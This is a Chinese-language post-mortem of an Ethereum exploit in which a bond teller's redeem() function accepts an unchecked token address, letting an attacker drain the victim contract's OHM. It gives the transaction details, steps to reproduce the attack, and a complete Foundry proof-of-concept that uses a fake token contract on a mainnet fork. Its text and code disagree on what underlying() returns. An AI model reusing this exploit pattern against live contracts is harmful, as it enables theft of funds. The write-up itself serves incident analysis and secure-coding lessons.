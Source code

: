 [toc]
## 事件基本情况
```
tx: 0x3ed75df83d907412af874b7998d911fdf990704da87c2b1a8cf95ca5d21504cf
区块链：eth
发送者: 0x443cf223e209e5a2c08114a2501d8f0f9ec7d9be
受害者: 0x007fe7c498a2cf30971ad8f2cbc36bd14ac51156
攻击合约: 0xa29e4fe451ccfa5e7def35188919ad7077a4de8f
调用函数: 0x9c587698
调用区块高度: 15794363
OHM token地址：0x64aa3364F17a4D01c6f1751Fd97C2BD3D7e7f1D5
```


## hacker攻击流程
1. 攻击者调用redeem(address token, uint256 amount)方法，并传入参数攻击者地址，受害者合约总额。调用后发现victim的金额转移到了攻击者合约，攻击成功。
2. 查看redeem方法，发现合约没有对token进行校验，直接将OHM从token.underlying()地址转移到了msg.sender。

  流程图如下
![[Pasted image 20230518111337.png]]

  漏洞方法如图
![[Pasted image 20230518110954.png]]

## 攻击点复刻方式
1. 攻击者合约创建一个token
	1. 将underlying方法返回值设置为受害者地址。
	2. 将expiry方法返回值设置为小于block.timestamp
	3. burn方法可以不做任何处理
2. 攻击合约调用redeem方法，传入新建的token地址和victim拥有的OHM总量。

## 攻击模拟结果图
![[Pasted image 20230518105429.png]]

## 事件总结
`在对于传入地址的外部合约的调用中，一定要对地址进行检查，防止恶意地址的攻击`

## 攻击代码
``` java
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.10;

  

import "forge-std/Test.sol";

  

import "./UniversalInterface.sol";

  

// 定义常量

address constant OHM = 0x64aa3364F17a4D01c6f1751Fd97C2BD3D7e7f1D5;

address constant victim = 0x007FE7c498A2Cf30971ad8f2cbC36bd14Ac51156;

uint256 constant BlockNumber = 15794363;

  

// 需要调用的不通用的接口

interface IBondFixedExpiryTeller {

    function redeem(address token_, uint256 amount_) external;

}

  

// 攻击中用到的新创建的合约

contract FakeToken{

    function underlying() external view returns(address) {

        return OHM;

    }

  

    function expiry() external pure returns (uint48 _expiry) {

        return 1;

    }

  

    function burn(address,uint256) external {

        // no thing

    }

}

interface OHMToken {

    function balanceOf(address) external returns(uint256);

}

  

contract Exploit is Test{

    function setUp() public {

        // cheats.createSelectFork();

        vm.createSelectFork("mainnet", BlockNumber);

        vm.label(OHM, "OHM");

        vm.label(victim, "victim");

    }

  

    function testExploit() public {

        // 创建假的token

        address fakeToken = address(new FakeToken());

        vm.label(fakeToken,"fakeToken");

        // 查看victim拥有多少OHM

        uint256 moneyBefore = OHMToken(OHM).balanceOf(victim);

        console.log("the money before the attack:",moneyBefore);

        // 开始攻击

        IBondFixedExpiryTeller(victim).redeem(fakeToken, moneyBefore);

  

        uint256 moneyAfter = OHMToken(OHM).balanceOf(victim);

  

        console.log("the money after the attack:",moneyAfter);

        console.log("attack success!");

    }

}
```
